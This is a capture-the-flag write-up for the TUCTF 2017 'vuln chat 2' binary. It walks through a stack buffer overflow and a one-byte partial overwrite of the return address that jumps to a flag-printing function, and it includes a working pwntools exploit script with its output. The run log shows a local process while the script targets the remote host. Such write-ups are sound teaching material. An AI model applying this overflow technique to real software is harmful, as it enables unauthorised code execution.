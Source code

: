 # Tuctf 2017 vuln chat 2

The goal for this challenge is to print the contents of `flag.txt`, not pop a shell.

Let's take a look at the binary:

```
$    file vuln-chat2.0
vuln-chat2.0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=093fe7a291a796024f450a3081c4bda8a215e6e8, not stripped
$    pwn checksec vuln-chat2.0
[*] '/Hackery/pod/modules/partial_overwrite/tuctf17_vulnchat2/vuln-chat2.0'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$    ./vuln-chat2.0
----------- Welcome to vuln-chat2.0 -------------
Enter your username: guyinatuxedo
Welcome guyinatuxedo!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: You've proven yourself to me. What information do you need?
guyinatuxedo: 15935728
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
```

So we can see we are dealing with a `32` bit binary, with a Non-Executable stack. When we run it, we see it first prompts us for a username. After that it prompts us for information we need. After that it prints a flag, but it isn't the one we need.

## Reversing

When we look at the main function in Ghidra, we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0x14);
  doThings();
  return 0;
}
```

So we can see here, it essentially just calls `doThings`:

```

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void doThings(void)

{
  undefined inp1 [20];
  undefined inp0 [15];
 
  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf(&DAT_08048798,inp0);
  printf("Welcome %s!\n",inp0);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: You\'ve proven yourself to me. What information do you need?");
  printf("%s: ",inp0);
  read(0,inp1,0x2d);
  puts("djinn: Alright here\'s you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  puts("djinn: Wait thats not right...");
  return;
}


```

We can see that the value of `DAT_08048798` is `%15s`:

```
                             DAT_08048798                                    XREF[2]:     doThings:0804858f(*),
                                                                                          doThings:08048595(*)  
        08048798 25              ??         25h    %
        08048799 31              ??         31h    1
        0804879a 35              ??         35h    5
        0804879b 73              ??         73h    s
        0804879c 00              ??         00h
```

So we can see it essentially prompts us for input twice (in addition to printing out a lot of text). The first time it prompts us for input, it scans in `15` bytes worth of data into `inp0`, which holds `15` bytes worth of data (no overflow here). The second scan scans in `0x2d` bytes worth of data into `inp1` which holds `20` bytes of data, so we have an overflow. Let's see what the offset is from the start of our input to the saved return address is:

```
────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1f      
$ebx   : 0x08049b08  →  0x08049a18  →  0x00000001
$ecx   : 0xf7fb7010  →  0x00000000
$edx   : 0x1f      
$esp   : 0xffffd0c0  →  0x08048870  →  "djinn: Wait thats not right..."
$ebp   : 0xffffd0ec  →  0xffffd0f8  →  0x00000000
$esi   : 0xf7fb5000  →  0x001dbd6c
$edi   : 0xf7fb5000  →  0x001dbd6c
$eip   : 0x08048635  →  <doThings+218> add esp, 0x4
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0c0│+0x0000: 0x08048870  →  "djinn: Wait thats not right..."     ← $esp
0xffffd0c4│+0x0004: 0x393531f8
0xffffd0c8│+0x0008: 0x32373533
0xffffd0cc│+0x000c: 0xffff0a38  →  0x00000000
0xffffd0d0│+0x0010: 0x08049b08  →  0x08049a18  →  0x00000001
0xffffd0d4│+0x0014: 0xf7fb5000  →  0x001dbd6c
0xffffd0d8│+0x0018: 0x79756700
0xffffd0dc│+0x001c: "inatuxedo"
──────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048625 <doThings+202>   inc    DWORD PTR [ebx-0x7c72fb3c]
    0x804862b <doThings+208>   push   0x50ffffed
    0x8048630 <doThings+213>   call   0x8048400 <puts@plt>
 →  0x8048635 <doThings+218>   add    esp, 0x4
    0x8048638 <doThings+221>   mov    ebx, DWORD PTR [ebp-0x4]
    0x804863b <doThings+224>   leave  
    0x804863c <doThings+225>   ret    
    0x804863d <main+0>         push   ebp
    0x804863e <main+1>         mov    ebp, esp
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat2.0", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048635 → doThings()
[#1] 0x8048668 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd0c5 - 0xffffd0cd  →   "15935728[...]"
gef➤  i f
Stack level 0, frame at 0xffffd0f4:
 eip = 0x8048635 in doThings; saved eip = 0x8048668
 called by frame at 0xffffd100
 Arglist at 0xffffd0ec, args:
 Locals at 0xffffd0ec, Previous frame's sp is 0xffffd0f4
 Saved registers:
  ebx at 0xffffd0e8, ebp at 0xffffd0ec, eip at 0xffffd0f0
```

So we can see that the offset is `0xffffd0f0 - 0xffffd0c5 = 0x2b`. Since our input is `0x2d` bytes, this means we can overwrite `0x2d - 0x2b = 0x2` bytes of the saved return address.

Also we can see that there is a function at `0x8048672` called `printFlag`, that if we call it we will get the flag:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void printFlag(void)

{
  puts("Ah! Found it");
  system("/bin/cat ./flag.txt");
  puts("Don\'t let anyone get ahold of this");
  return;
}
```

## Exploitation

So we will be doing a partial overwrite. In this case, we will only be overwriting the least significant byte of the return address. When we looked at the saved return address, we saw that it was equal to `0x8048668`. The function we are trying to call (`printFlag`) is at `0x8048672`. Since the only difference between the two addresses is the least significant byte (which we will overwrite to be `0x`72), we only need to overwrite that to call `printFlag`.

Also even though we don't have to deal with address randomization in this challenge thanks to there not being PIE, a lot of the time that is where partial overwrites come in handy. That is because since the base address usually ends in a null byte (or multiple) the randomization doesn't apply to the lower bytes. So if we overwrite the lower bytes, it gives us a range that we can jump to without an infoleak.

## Exploit

Putting it all together, we have the following exploit:

```
#Import pwntools
from pwn import *

#Establish the target
#target = process('vuln-chat2.0')
target = remote('vulnchat2.tuctf.com', 4242)

#Print out the text up to the username prompt
print target.recvuntil('Enter your username: ')

#Send the username, doesn't really matter
target.sendline('guyinatuxedo')

#Print the text up to the next prompt
print target.recvuntil('guyinatuxedo: ')

#Construct the payload, and send it
payload = `0`*0x2b + "\x72"
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

When we run it:

```
$    python exploit.py
[!] Could not find executable 'vuln-chat2.0' in $PATH, using './vuln-chat2.0' instead
[+] Starting local process './vuln-chat2.0': pid 10483
----------- Welcome to vuln-chat2.0 -------------
Enter your username:
Welcome guyinatuxedo!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: You've proven yourself to me. What information do you need?
guyinatuxedo:
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
flag{g0ttem_b0yz}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
```

Just like that, we got the flag!
